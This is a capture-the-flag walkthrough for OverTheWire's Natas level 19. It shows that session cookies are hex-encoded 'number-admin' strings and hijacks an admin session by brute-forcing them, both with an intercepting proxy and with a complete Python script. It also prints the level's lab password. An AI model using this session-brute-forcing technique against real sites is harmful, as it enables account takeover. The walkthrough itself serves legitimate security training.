# 🕸️Natas Level 19 → Level 20

```
http://natas19.natas.labs.overthewire.org
```
Username: natas19  
Password: (natas19_password)



First, we test it with the admin account to observe its response.



The output shows that you don’t have admin privileges, just like in the previous challenge.



Then we checked the cookie to see if it contained anything useful.



We can also use the curl command to retrieve the cookie.
```
curl -u natas19:tnwER7PdfWkxsG4FNWUtoAZ9VyZTJqJr \
-d "username=admin&password=pass" \
-i -s http://natas19.natas.labs.overthewire.org | grep -i set-cookie
```


After running the command **three times**, we noticed a pattern in the cookie.



We observed that the numbers in the **second, fourth, and sixth** positions keep changing, while the rest remain the same.
```
PHPSESSID=3531332d61646d696e
PHPSESSID=3331362d61646d696e
PHPSESSID=3133352d61646d696e
PHPSESSID=3135382d61646d696e
```
If we limit the **second, fourth, and sixth** positions to digits `0–9`, brute forcing is straightforward — only **1,000 possible combinations**. 

We can complete this task 📝 using several different approaches. Here are two simple options to try:  
🔧 Method 1 — Web security testing tools  
🐍 Method 2 — Python script

### 🔧 Method 1 — Web security testing tools 

First, attempt to log in using the **admin credentials**. Start CAIDO to intercept the request, then reload the page.



Once the request is captured, forward it to **Automate**.



Select the **second, fourth, and sixth positions** of the cookie value to configure the **payload**.


Use the **Matrix** Attack option, or if you’re using Burp Suite, choose the Cluster Bomb option.



Set all **three payloads** to numbers `0–9`, incrementing each by `1`.



**Optional step**: increase the number of workers to `30` (default is `10`) to speed up the process. You can also set a delay time for better error handling. Then Click **Run**.



Once the run is finished, click on Length to filter responses by different sizes. The flag should appear there.



### 🐍 Method 2 — Python script

```
import requests

# Credentials for natas19 (HTTP Basic Auth)
username = "natas19"
password = "tnwER7PdfWkxsG4FNWUtoAZ9VyZTJqJr"

# Target URL for the web challenge
url = "http://natas19.natas.labs.overthewire.org"

# Start a session to persist cookies and headers across requests
session = requests.Session()

cookie = ""    # will hold the value we set for PHPSESSID
found = False  # flag to stop all loops early when we find the admin session


for second in range(0, 10):     # digit for the second position (0..9)
    for fourth in range(0, 10):  # digit for the fourth position (0..9)
        for sixth in range(0, 10):  # digit for the sixth position (0..9)
            # our cookie payload
            cookie = f"3{second}3{fourth}3{sixth}2d61646d696e"

            # Set the cookie named and value in the session.
            session.cookies.set("PHPSESSID", cookie)

            print(f"Guessing with PHPSESSID={cookie}") #verbose mode

             # Send a POST request with login credentials
            response = session.post(
                url,
                data={"username": "admin", "password": "pass"}, # example login data
                auth=(username, password)                       # HTTP Basic Auth credentials
            )

            # Check if the response contains "You are an admin." (indicating success)
            if "You are an admin." in response.text:
                print(response.text)
                print(f"Found admin PHPSESSID={cookie}")
                found = True
                break  # break out of the innermost loop (sixth digit loop)

        if found:
            break  # break out of the middle loop (fourth digit loop)
    if found:
        break  # break out of the outermost loop (second digit loop)

if not found:
    print("admin PHPSESSID not found.")


```

Ensure the script has executable permissions, then execute it.



Take a cup of coffee, and when you return, the flag should be found.



Excellent! Use this flag to proceed to the next round.


